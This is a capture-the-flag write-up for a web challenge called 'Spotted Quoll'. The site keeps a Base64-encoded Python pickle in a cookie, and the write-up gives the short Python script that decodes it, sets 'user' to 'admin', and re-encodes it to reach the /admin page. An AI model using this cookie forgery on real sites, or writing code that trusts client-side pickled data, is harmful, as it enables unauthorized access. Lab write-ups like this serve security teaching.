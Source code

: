 ## Spotted Quoll Web 50

# Problem

This blog on Zombie research looks like it might be interesting - can you break into the /admin section?


# Solution

We get web page with quite simple interface:

![Spotted Quoll](assets/1.png)

We have no access to _Admin_


Quick look at request headers shows Cookie header contains long Base64 string:

![Spotted Quoll](assets/2.png)

String contains Python Pickle module object.

Couple of operations with Python allows us to:

- decode Base64 string to Pickle object
- unpack Pickle module
- modify 'user' key in dictionary to 'admin'
- pack it back into Pickle module and encode as Base64 

```Python
#!/usr/bin/python
import cPickle
import base64


c = cPickle.loads(base64.b64decode("KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu"))
# {'python': 'pickles', 'subtle': 'hint', 'user': None}

n = {'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}

c2 = base64.b64encode(cPickle.dumps(n))

# KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKUydhZG1pbicKcDcKcy4=
```

Simple change of _obsoletePickle_ cookie allows us to access Admin and read the flag.
